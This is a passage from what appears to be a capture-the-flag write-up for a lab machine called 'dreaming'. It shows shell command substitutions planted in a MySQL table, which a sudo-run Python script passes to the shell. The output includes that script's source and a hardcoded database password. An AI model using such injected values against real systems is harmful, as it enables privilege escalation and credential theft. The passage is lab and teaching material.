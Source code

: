 ```
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
+---------+------------------------------------+

> UPDATE dreams SET dream = '$(/bin/bash)' WHERE dream = '/bin/bash';

```

Got daeth user

```
lucien@dreaming:~$ sudo -u death /usr/bin/python3 /home/death/getDreams.py
death@dreaming:/home/lucien$
```

but commands isn't returning anything

```
death@dreaming:~$ ls -la
death@dreaming:~$ ls -la ..
death@dreaming:~$ clear
death@dreaming:~$ cat /opt/getDreams.py
death@dreaming:~$ id
```

`> UPDATE dreams SET dream = '$(cat /home/death/getDreams.py)' WHERE dream = '$(/bin/bash)';`

```
lucien@dreaming:/home/death$ sudo -u death /usr/bin/python3 /home/death/getDreams.py

Alice + import mysql.connector import subprocess # MySQL credentials DB_USER = "death" DB_PASS = "!mementoMORI666!" DB_NAME = "library" def getDreams(): try: # Connect to the MySQL database connection = mysql.connector.connect( host="localhost", user=DB_USER, password=DB_PASS, database=DB_NAME ) # Create a cursor object to execute SQL queries cursor = connection.cursor() # Construct the MySQL query to fetch dreamer and dream columns from dreams table query = "SELECT dreamer, dream FROM dreams;" # Execute the query cursor.execute(query) # Fetch all the dreamer and dream information dreams_info = cursor.fetchall() if not dreams_info: print("No dreams found in the database.") else: # Loop through the results and echo the information using subprocess for dream_info in dreams_info: dreamer, dream = dream_info command = f"echo {dreamer} + {dream}" shell = subprocess.check_output(command, text=True, shell=True) print(shell) except mysql.connector.Error as error: # Handle any errors that might occur during the database connection or query execution print(f"Error: {error}") finally: # Close the cursor and connection cursor.close() connection.close() # Call the function to echo the dreamer and dream information getDreams()

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician

lucien@dreaming:/home/death$

```

